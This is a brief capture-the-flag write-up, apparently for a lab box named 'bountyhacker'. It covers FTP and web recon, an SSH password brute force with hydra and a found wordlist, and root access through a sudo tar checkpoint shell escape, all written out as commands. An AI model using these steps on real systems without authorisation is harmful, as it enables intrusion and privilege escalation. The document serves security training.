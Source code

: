 # recon
- 21/tcp open  ftp
  - ftp-anon: Anonymous FTP login allowed (FTP code 230)
  - 2 files:
    - locks.txt
      - **wordlist**? I think so
    - task.txt
      - just a to do list from **Lin**
- 22/tcp open  ssh
- 80/tcp open  http
  - Apache/2.4.18 (Ubuntu)
  - gobuster!!
    - /images (Status: 301)
    - /index.html (Status: 200)


# foothold
```console
$ hydra -f -l lin -P locks.txt $IP -t 64 ssh
```

# root
```console
lin@bountyhacker:~/Desktop$ sudo -l
[sudo] password for lin: 
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```
https://gtfobins.github.io/gtfobins/tar/
```console
lin@bountyhacker:~/Desktop$     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names
# whoami
root
# cat /root/root.txt
```